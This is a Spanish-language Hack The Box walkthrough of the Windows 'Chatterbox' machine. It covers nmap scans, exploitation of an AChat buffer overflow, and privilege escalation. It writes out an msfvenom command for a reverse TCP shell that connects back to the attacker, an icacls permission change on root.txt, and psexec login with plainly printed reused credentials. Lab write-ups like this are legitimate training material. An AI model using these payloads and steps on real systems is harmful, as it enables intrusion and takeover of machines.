




# Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Chatterbox](https://www.hackthebox.com/home/machines/profile/123) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad |  |
| Puntos | 30 |
| Creadores | [lkys37en](https://www.hackthebox.com/home/users/profile/709) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:36 EDT
Initiating Connect Scan at 13:36
Scanning 10.10.10.74 [65535 ports]
Discovered open port 135/tcp on 10.10.10.74
Discovered open port 139/tcp on 10.10.10.74
Discovered open port 445/tcp on 10.10.10.74
Discovered open port 49152/tcp on 10.10.10.74
Discovered open port 49154/tcp on 10.10.10.74
Discovered open port 9256/tcp on 10.10.10.74
Discovered open port 49153/tcp on 10.10.10.74
Discovered open port 9255/tcp on 10.10.10.74
Discovered open port 49155/tcp on 10.10.10.74
Discovered open port 49157/tcp on 10.10.10.74
Discovered open port 49156/tcp on 10.10.10.74
Completed Connect Scan at 13:37, 29.11s elapsed (65535 total ports)
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.073s latency).
Scanned at 2022-05-27 13:36:42 EDT for 29s
Not shown: 54223 closed tcp ports (conn-refused), 11301 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
9255/tcp  open  mon          syn-ack
9256/tcp  open  unknown      syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 29.15 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m36s, median: 4h59m59s
| smb2-time:
|   date: 2022-05-27T22:40:43
|_  start_date: 2022-05-27T22:34:47
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T18:40:47-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.63 seconds
```

# Enumeración

## Servicios

### achat - 9255, 9256

#### Manual

Al buscar hacer un reconocimiento directamente por alguna versión vulnerable se encontró [este repositorio en github](https://github.com/mpgn/AChat-Reverse-TCP-Exploit) de una prueba de concepto sobre la explotación del programa, probado en su versión y arquitectura `AChat 0.150 Beta 7 Windows 7/8/10 x86/x64`. Por lo que directamente se probó el exploit.

# Explotación

## Buffer Overflow - RCE

### Pasos previos | Preparación

Dadas las indicaciones en la PoC se generó el shellcode correspondiente usando `msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=10.10.14.16 LPORT=4321 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > scode.txt`

Sustituyendo los valores correspondientes en el script del shellcode y host.

### Ejecución

Obteniendo acceso como el usuario `alfred`.



# Post Explotación

## Enumeración

Posteriormente al ejecutar [winPEAS](https://github.com/carlospolop/PEASS-ng), se identificaron dos rutas potenciales a probar:

1. El usuario con el que se cuenta (alfred) tiene acceso completo al directorio del usuario Administrator.
2. Existen credenciales AutoLogon visibles.



## Escalación de privilegios

### alfred &rarr; nt authority system

En el primer caso, bastaría con leer, escribir o ejecutar cualquier archivo dentro del directorio, si llegara a suceder que no se permite el acceso a un archivo bastaría con hacer uso de `icacls` para efectuar el cambio de permisos lo cual por herencia o jerarquía del directorio, se permitiría este cambio pudiendo así leer la bandera de `root.txt`.

Por medio de `icacls .\root.txt /e /p alfred:f`, tomando como referencia [este post](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html) para verificar el uso del binario.



En el segundo caso, al probar alguna herramienta que permita acceso al sistema con credenciales como `psexec` se puede obtener una shell como `NT AUTHORITY SYSTEM`, probando las credenciales obtenidas anteriormente bajo la suposición de reutilización de contraseña.

Ejecutando `impacket-psexec 'Administrator:Welcome1!@10.10.10.74'`.



# Referencias

- [AChat expoit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit).
- [Windows change access permissions from the command line](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html).
